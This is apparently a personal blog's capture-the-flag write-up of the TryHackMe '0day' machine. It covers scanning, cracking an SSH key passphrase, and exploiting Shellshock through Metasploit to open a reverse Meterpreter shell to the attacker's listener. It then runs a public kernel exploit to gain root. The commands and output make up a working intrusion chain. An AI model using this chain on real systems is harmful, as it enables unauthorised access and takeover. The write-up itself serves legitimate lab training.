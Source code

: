 ```yaml
---
layout: default
title : 0dat - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[0day](https://tryhackme.com/room/0day) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/0day$ nmap -sC -sV 10.10.86.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 15:38 EST
Nmap scan report for 10.10.86.209
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

```
bvr0n@kali:~/CTF/THM/0day$ ffuf -c -u http://10.10.86.209/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

________________________________________________

.htpasswd               [Status: 403, Size: 288, Words: 21, Lines: 11]
.hta                    [Status: 403, Size: 283, Words: 21, Lines: 11]
.htaccess               [Status: 403, Size: 288, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 311, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 312, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin                 [Status: 301, Size: 313, Words: 20, Lines: 10]
css                     [Status: 301, Size: 309, Words: 20, Lines: 10]
img                     [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43]
js                      [Status: 301, Size: 308, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 38, Words: 7, Lines: 2]
secret                  [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 292, Words: 21, Lines: 11]
uploads                 [Status: 301, Size: 313, Words: 20, Lines: 10]
```

`/backup/` have a SSH private key, Let's crack it for a password.

```
bvr0n@kali:~/CTF/THM/0day$ sudo john test --wordlist=/home/bvr0n/Documents/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
```
This was eventually a rabbit hole haha, i decided to bring `nikto` he may help me :

```
bvr0n@kali:~/CTF/THM/0day$ nikto -h 10.10.86.209
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.86.209
+ Target Hostname:    10.10.86.209
+ Target Port:        80
+ Start Time:         2020-11-10 15:54:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
Nikto was able to find a vulnerability named `Shellshock`.

## Shellshock :
```
Shellshock is effectively a Remote Command Execution vulnerability in BASH.
The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable.
```
* Any *NIX OS may be vulnerable
* Any product / appliance implementing bash may be vulnerable
* Vulnerable since version 1.03 of Bash released in September 1989
* RCE via Apache with mod_cgi, CGI Scripts, Python, Perl
* RCE on DHCP clients using Hostile DHCP ServerOpenSSHRCE/Privilege escalation

Shellshock Remote Command Execution via Apache CGI Script.

##### Victim requirements:

* Apache web server-mod_cgienabled
* -Helloworld.cgiscript

##### Attacker requirements:

* Listener running to accept incoming connections

## Shellsock Exploitation :

I searched for it in metasploit and found 11 modules, but this one matches what we need :

```
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)7
```
This is what we need to configure :

```
> set LHOST tun0
> set RHOSTS 10.10.86.209
> set TARGETURI /cgi-bin/test.cgi
```
Type exploit and wait for it :

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.86.209
[*] Meterpreter session 1 opened (10.8.14.157:4444 -> 10.10.86.209:55383) at 2020-11-10 16:09:04 -0500

meterpreter >
```

## Privilege Escalation :

So i did a few enumeration and i found out that this machine is running an outdated kernel :o

```
www-data@ubuntu:/home/ryan$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for this version and found an [Exploit](https://www.exploit-db.com/exploits/37292) for it, so let's get this root.

I uploaded the exploit to the machine via my machine and compiled it :

```
www-data@ubuntu:/tmp$ gcc Kernel_exploit.c -o kec
www-data@ubuntu:/tmp$ ./kec 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id && whoami
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root
```


<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](bvr0n.github.io/)

<br>
